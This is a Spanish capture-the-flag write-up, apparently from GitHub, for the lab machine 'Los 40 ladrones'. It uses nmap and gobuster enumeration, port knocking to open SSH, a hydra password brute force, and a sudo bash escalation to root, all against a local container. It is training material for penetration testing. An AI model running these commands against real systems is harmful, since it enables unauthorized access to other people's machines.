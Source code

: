 # Los 40 ladrones
![image](https://github.com/user-attachments/assets/a47f0df8-8745-432f-83bc-3604923d79c9)


## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
sudo nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/cc49357e-34fe-4d07-a009-1113f95e770c)

![image](https://github.com/user-attachments/assets/527503ea-c5e6-49fe-99f5-d639bb52c61d)

Nos encontramos con este mensaje en el archivo txt que encontramos con **gobuster** llamado *qdefense.txt*.
A parte que nos informa de un posible usuario **toctoc**, por la información del fichero podría tratarse de una secuencia de puertos que tendríamos que utilizar para obtener información. Deberemos utilizar la técnica de **Port Knocking**.

*Port Knocking es una técnica de seguridad utilizada para controlar el acceso a servicios en un servidor, como una forma de autenticación antes de permitir la conexión a puertos específicos. La idea principal es que los puertos en un servidor están "cerrados" y no responden a conexiones normales hasta que se haya completado una secuencia particular de intentos de conexión en puertos específicos, conocida como "knock sequence" o secuencia de golpeo.*

**¿Cómo funciona?**

*Secuencia de Golpeo:* El usuario debe intentar conectarse a una serie de puertos en un orden específico. Por ejemplo, primero al puerto 7000, luego al 8000, y finalmente al 9000. Estos intentos pueden hacerse con paquetes de TCP, UDP o ICMP.

*Registro de Golpes:* El servidor está monitoreando los intentos de conexión a estos puertos. No responde a los intentos, pero los registra.

*Verificación de la Secuencia:* Si el servidor detecta que se ha seguido la secuencia correcta de golpes en los puertos, puede activar un script o una regla de firewall que abra el puerto que el usuario quiere acceder (por ejemplo, el puerto 22 para SSH).

*Acceso Permitido:* Una vez que se permite el acceso, el usuario puede conectarse normalmente al puerto deseado.

Primero de todo instalaremos **knock**.
```
sudo apt update && sudo apt install -y knockd
```
Una vez instalado ejecutamos el siguiente comando.

```
knock -v 172.17.0.2 7000 8000 9000
```
![image](https://github.com/user-attachments/assets/14fc05a6-7afb-4e81-9f4a-7d38e09b7136)

Volvemos a hacer un escaneo de puertos y obtendremos acceso al puerto 22.
```
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-30 11:27 CEST
Initiating ARP Ping Scan at 11:27
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:27, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:27
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:28, 26.52s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000076s latency).
Scanned at 2024-07-30 11:27:39 CEST for 26s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Ahora utilizamos **hydra** con el usuario **toctoc** obtenido en el archivo txt, para con fuerza bruta descubrir la contraseña.

```
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/8b84f5e5-9528-4c1b-9643-c304376d5eff)

Como hemos obtenido una contraseña, nos conectamos por ssh.
```bash
ssh toctoc@172.17.0.2
```
![image](https://github.com/user-attachments/assets/c2b615e2-42ad-4528-8b18-6987483ff1a6)

## Escalada de privilegios.

Comprobamos si hay algún binario que podamos explotar y nos encontramos con dos opciones.

![image](https://github.com/user-attachments/assets/08908efd-3ecd-49bb-80d7-58499eda20b7)

```bash
sudo -u root /opt/bash -p
```
Ya tenemos acceso como **root**.

![image](https://github.com/user-attachments/assets/d99869ef-ec35-4b98-8c21-bfdb13c2f684)












